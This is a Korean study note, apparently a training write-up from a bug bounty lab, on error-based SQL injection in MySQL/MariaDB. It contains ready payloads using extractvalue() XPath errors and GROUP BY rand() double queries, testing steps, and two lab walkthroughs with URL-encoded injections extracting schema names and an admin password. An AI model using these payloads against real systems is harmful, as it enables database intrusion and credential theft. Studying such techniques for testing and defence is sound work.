

# Error 기반 SQL Injection

개인 공부용으로 참고하기 위해서 버그바운티 클럽의 Pentest Gym에서 퍼온 사진과 글을 참고하여 정리한 문서입니다. 

| 출처 : https://www.bugbountyclub.com/pentestgym/view/53

# Error 기반 SQL Injection 이란?
오류 기반 SQL Injection은 주로 데이터베이스에 대한 정보를 획득하기 위해 사용된다. SQL의 잘못된 문법이나 자료형 불일치 등에 의해 데이터베이스가 알려주는 오류메시지에 의존하여 수행되는 공격 기법이다. 따라서 웹 애플리케이션에서 오류를 출력해주는 경우 주로 사용가능하다
공격자는 SQL 쿼리의 잘못된 문법을 사용해 고의적인 오류를 발생, 오류 정보를 바탕으로 데이터베이스명, 테이블, 칼럼 등 정보와 구조를 알아내어 민감한 데이터를 획득 가능케한다.


# 오류 기반 SQL Injection의 원리
웹 애플리케이션이 문법적 오류가 있는 SQL 쿼리를 데이터베이스에 요청하면 쿼리를 실행하지 못하고 오류를 반환한다. 만약 개발자가 디버깅을 위해 이 오류를 HTTP 응답 내에서 출력하도록 작성이 되어있고, 이를 방치했다면 일반 사용자도 확인할 수 있게 된다.
경우에 따라 오류가 웹 브라우저에서는 출력이 되지 않지만 소스코드의 주석에서 나타날 수도 있다.

# 공격 기법
## MySQL(MariaDB도 해당)
XPath와 Double query 방식이 있다.

### XPath
`extractvalue()` 함수를 활용하는 기법으로 MySQL 기준 5.1 이상의 버전에서 유효하다.
```bash
[Syntax]
extractvalue(xml_frag, xpath_expr)
```
XML `xml_frag`와 XPath 표현식인 xpath_expr 두개의 인수가 필요하다. 두개의 인수를 통해 XML에서 XPath 표현식에 일치하는 데이터를 추출하여 반환한다
만약 두번째 인수에서 유효하지 않은 XPath 표현식이 사용되면 `ERROR 1105 (HY000): XPATH syntax error: 'xpath_expr 인수의 값' ` 이러한 오류가 발생한다.

한가지 알아둬야할 점은, xpath_expr 인수로 임의의 SQL 쿼리를 지정했을 때 쿼리의 실행 결과가 오류 메시지를 포함한다는 것이다. 이 점을 이용해 공격을 수행 할 수 있음. 
첫번째 인수는 임의의 값을 지정하기 위해 `rand()` 함수를 사용, 두번째 인수가 항상 유효하지 않은 XPath 표현식이 되도록 하기 위해 `concat()` 함수를 이용해 콜론(:)을 앞에 추가한다. 0x3a는 콜론의 16진수 표기법이다. 그리고 마지막으로 후속 쿼리를 무효화하기 위해서 가장 끝에 주석문자(--)와 공백 문자(스페이스)를 추가한다. 스페이스를 추가하는 것을 잊지 않도록 주의해야한다.
최종적으로 아래와 같은 형태가 된다.
```bash
AND extractvalue(rand(), concat(0x3a, 실행할-SQL-쿼리))-- 

# 데이터베이스 버전 추출
AND extractvalue(rand(),concat(0x3a,version()))-- 

# 데이터베이스명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- 

# 데이터베이스명 추출(웹 애플리케이션과 통신 중인 데이터베이스)
AND extractvalue(rand(),concat(0x3a,database()))-- 

# 테이블명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,table_name) FROM information_schema.TABLES WHERE table_schema='데이터베이스명' LIMIT 0,1)))-- 

# 컬럼명 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='데이터베이스명' AND TABLE_NAME='테이블명' LIMIT 0,1)))-- 

# 데이터 추출
AND extractvalue(rand(),concat(0x3a,(SELECT concat(컬럼1,0x3a,컬럼2) FROM 데이터베이스명.테이블명 LIMIT 0,1)))-- 
```
위 `extractvalue()` 함수의 에러메시지는 단일 행으로 반환되므로 `LIMIT`를 사용하여 한번에 하나의 행만 출력될 수 있도록한다.
```bash
...LIMIT 0, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 첫번째 행 반환)
...LIMIT 1, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 두번째 행 반환) 
...LIMIT 2, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 세번째 행 반환)
...LIMIT 3, 1)))--      (SQL 쿼리에서 반환된 레코드셋의 네번째 행 반환)
...생략...
```

### Double Query
GROUP BY를 통한 그룹 집계의 기준 컬럼에 `rand()` 함수가 사용된 경우 발생하는 Duplicate entry 오류를 활용한 기법으로 이 오류가 발생하는 이유에 대해서는 아직 명확하게 밝혀지지 않았으며 MySQL의 버그로 간주되기도 한다

그룹 기준 컬럼의 Duplicate entry 오류는 그룹별 집계를 위한 기준 컬럼이 중복될 때 발생하는 오류로, 일반적인 컬럼인 경우에는 잘 실행되지만 행이 3개 이상 존재하는 테이블에서는 `FLOOR(rand(0)*2)`를 기준 컬럼으로 하는 경우에는 `rand()` 함수가 그룹 집계 기준으로 사용하기에는 가변적으로 안정적이지 않아 오류를 출력함
```bash
SELECT FLOOR(rand(0)*2) 
FROM some-table;
```
이 쿼리를 행의 수가 충분히 많은 임의의 테이블에서 실행한다면 아래와 같이 테이블 행의 수 만큼 0 또는 1의 값이 반환된다
```bash
floor(rand(0)*2)
================
0 
1
1    <--- Duplicate entry 오류 유발
0
1
1
0
0
1
1
1
0
1
...
```
아래와 같이 `FLOOR(rand(0)*2)`를 그룹 집계의 기준 컬럽으로 설정 -> 그룹별 행의 수 집계를 위한 `count(*)` 집계 함수를 사용하여 쿼리를 실행하면 버그로 인해 위의 두번째 행과 세번째 행이 중복되므로 Duplicate entry 오류를 발생
```bash
SELECT FLOOR(rand(0)*2), COUNT(*) 
FROM some-table
GROUP BY FLOOR(rand(0)*2) ;

# 오류
SQL Error [1062] [23000]: (conn:113718) Duplicate entry '1' for key 'group_key'
```

위 같은 오류를 이용하여 `concat()`함수를 이용해 "실행할-SQL-쿼리" (DB에서 추출하고자하는 정보의 SQL 쿼리)와 `FLOOR(rand(0*2))`를 결합한다. 그리고 이걸 x로 ALIAS 적용하면 쿼리는 다음과 같아진다.
```bash
SELECT concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x,COUNT(*) 
FROM some-table 
GROUP BY x

# 오류를 평가하고 결과를 나타내기 위해 서브 쿼리를 이용
SELECT 1
FROM (
	SELECT concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x,COUNT(*) 
	FROM some-table 
	GROUP BY x
     )a
)

# some-table은 3행 이상의 행을 가진 시스템 테이블인 information_schema. TABLES로 변경하고, 주석과 공백 문자 추가 -> 앞부분에 AND 연산자 사용
AND (SELECT 1 FROM(SELECT COUNT(*),concat(실행할-SQL-쿼리, FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 


# 데이터베이스 버전 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat(version(),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 

# 데이터베이스명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)-- 

# 데이터베이스명 추출(웹 애플리케이션과 통신 중인 데이터베이스)
AND extractvalue(rand(),concat(0x3a,database()))-- 

# 테이블명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='데이터베이스명' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)-- 

# 컬럼명 추출
AND (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='데이터베이스명' AND TABLE_NAME='테이블명' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)-- 

# 데이터 추출
AND(SELECT 1 FROM(SELECT COUNT(*),concat((SELECT CONCAT_WS(0x3a,컬럼1,컬럼2,..., 컬럼N) FROM 데이터베이스명.테이블명 LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- 
```

# 테스트 방법
1. 데이터베이스와 통신하는 엔드포인트 식별
대상 웹 애플리케이션의 모든 기능을 사용해보고 데이터베이스와 통신하는 것으로 의심되는 모든 엔드포인트와 매개변수를 찾아 수집한다
만일 웹 애플리케이션 내에 다양한 사용자 권한이나 역할이 존재하고 서비스가 차등적으로 제공되나면 각 권한과 역할에 대한 모든 조합별로 사용자 계정을 생성해 웹 애플리케이션을 사용
공격 벡터느 GET 매개변수, POST body 매개변수, Cookie 등의 표준 요청 헤더나 커스텀 요청 헤더가 될 수 있음

2. 잠재적 취약 여부 검증
- 문자열 타입인 경우
매개 변수의 값에 홑따옴표(')를 입력해 제출해보고 HTTP 응답 메시지를 살펴본다
```bash
idx=1234'

idx=12' '34      (MySQL 또는 MariaDB)
idx=12'%2B'34    (MSSQL)
idx=12'||'34     (Oracle)
```
%2B는 더하기 기호가 URL 인코딩 된것이다. "AND 1=1","AND 1=2"와 같은 논리 조건을 주입하여 취약한지 테스트한다 -> 등호(=) 기호는 URL 인코딩 시 %3D
```bash
idx=1234%27+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=1234%27+AND+1%3D2--+     (거짓이 되는 조건 주입) 
```
- 숫자 타입인 경우
```bash
idx=4

# 산술 연산자 사용
idx=5-1
idx=3+1
idx=53-ASCII(1)     ---> ASCII(1)의 값은 49로 계산 결과는 4임

# 논리 조건 주입
idx=4+AND+1%3D1--+     (참이 되는 조건 주입)  
idx=4+AND+1%3D2--+     (거짓이 되는 조건 주입)    
```
- 오류 기반 공격 기법이 가능한지 파악
XPath 기법을 이용해 오류가 유발되는지 확인
```bash
idx=1234'+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# 숫자 타입인 경우
idx=1234+AND+extractvalue(rand(),concat(0x3a,'sqlitest'))--+

# HTTP 응답 메시지 안에 다음과 같은 오류 발생 시 오류 기반의 SQL Injection에 취약하다
XPATH syntax error: ':sqlitest'
```

# 실습 문제 
## Exercise1
| 이 문제는 매개변수가 WHERE절에 사용된 문자열 타입의 컬럼과 연결됩니다. 

1. 홑따옴표를 추가해 에러메시지 확인

MariaDB 서버 인것을 확인했다.
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27

Employee Info

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Faye Valentine''' at line 1
```


2. XPath 기법을 통해 웹 애플리케이션이 통신중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::mydb'
``` 

3. 테이블명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::users'
```

4. users 테이블을 대입하여 컬럼을 열거
```bash
# user 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%204,1)))--%20

Employee Info

Error: XPATH syntax error: '::user_id'

# password 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%206,1)))--%20

Employee Info

Error: XPATH syntax error: '::password'
```

5. 테이블명과 칼럼명 확인 -> users 테이블의 데이터를 열거하여 admin 계정 패스워드 획득
```bash

https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20users%20LIMIT%200,1)))--%20


Employee Info

Error: XPATH syntax error: ':admin:pass'
```

## Exercise2
| 이 문제는 매개변수값에 홑따옴표(')를 제출하면 데이터베이스 구문 오류 메시지를 표시하지만 문제1과 동일한 방법을 이용하면 원하는 데이터를 추출할 수 없습니다. 이 문제는 매개변수가 데이터베이스의 숫자 타입 컬럼과 연결되어있음을 유의하세요. 

1. 홑 따옴표 없이 산술식을 이용하여 초기 매개변수 3 값과 동일한 값 제출
```bash
https://.../sqli_err_ex2.php?emp_no=4-1

Employee Info
ID	Name	Gender	Birthday
3	Faye Valentine	F	1944-02-14

동일한 값 출력 -> SQL Injection에 취약하다고 판단됨.
```

2. XPath 기법을 이용해 웹 애플리케이션과 통신 중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::mydb'
```

3. 데이터베이스명을 찾았으니, 테이블명을 열거
```bash

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::users'
```

4. 칼럼명 추출
```bash
# user_id
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%201,1)))--

Employee Info

Error: XPATH syntax error: '::user_id'

# password
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%203,1)))--

Error: XPATH syntax error: '::password'
```

5. 데이터 추출
```bash
# admin

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20mydb.users%20LIMIT%200,1)))--

Employee Info

Error: XPATH syntax error: ':admin:pass'
```
